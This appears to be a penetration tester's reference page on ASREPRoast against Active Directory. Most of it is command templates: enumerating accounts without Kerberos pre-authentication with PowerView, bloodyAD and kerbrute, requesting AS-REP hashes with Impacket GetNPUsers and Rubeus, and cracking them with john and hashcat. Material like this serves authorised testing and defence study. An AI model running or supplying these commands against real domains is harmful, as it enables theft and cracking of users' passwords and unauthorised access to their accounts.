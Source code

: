 # Overview
ASREPRoast is a security attack that exploits users who lack the **[[88 - Kerberos]] pre-authentication required attribute**. Essentially, this vulnerability allows attackers to request authentication for a user from the Domain Controller (DC) without needing the user's password. The DC then responds with a message encrypted with the user's password-derived key, which attackers can attempt to crack offline to discover the user's password.

## Prerequisites
- No Kerberos pre-authentication
- Ability to connect to the DC
- *Optional*: Having a domain account. This allows the attacker to identify users through LDAP. Without this account, the attacker has to guess the usernames.

## Tools
- [Rubeus Release](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_x64/Rubeus.exe)
- [Impacket - GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)
- [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- [bloodyAD](https://github.com/CravateRouge/bloodyAD)
- [optional - kerbrute](https://github.com/ropnop/kerbrute)


# Main Enumeration 
Here we enumerate vulnerable users.
**Windows**
```powershell
# PowerView
Get-DomainUser -PreauthNotRequired -verbose
```

**Linux**
```bash
bloodyAD -u <USER> -p 'PASSWORD' -d <DOMAIN> --host <IP> get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName
```

# Optional Enumeration
A tool to quickly brute force and enumerate valid Active Directory accounts through Kerberos Pre-Authentication
```bash
./kerbrute userenum --dc <IP> -d <DOMAIN> <USERS>
```

# Request AS_REP message (Exploit)
**Linux**
```bash
# Try all the usernames the file provided
python GetNPUsers.py <DOMAIN>/ -usersfile <USER_FILE> -format hashcat -outputfile <HASHES_OUT>
# Use domain creds to extract targets and target them
python GetNPUsers.py <DOMAIN>/USER:PASSWORD -request -format hashcat -outputfile <HASHES_OUT>
```

**Windows**
```powershell
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast [/user:username]
Get-ASREPHash -Username USER -verbose
```


# Cracking Hashes
```bash
john --wordlist=<CLEAR_PASS> <HASHES_OUT>
hashcat -m 18200 --force -a 0 <HASHES_OUT> <CLEAR_PASS>
```


# References
- [https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/asreproast.html](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/asreproast.html)
- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)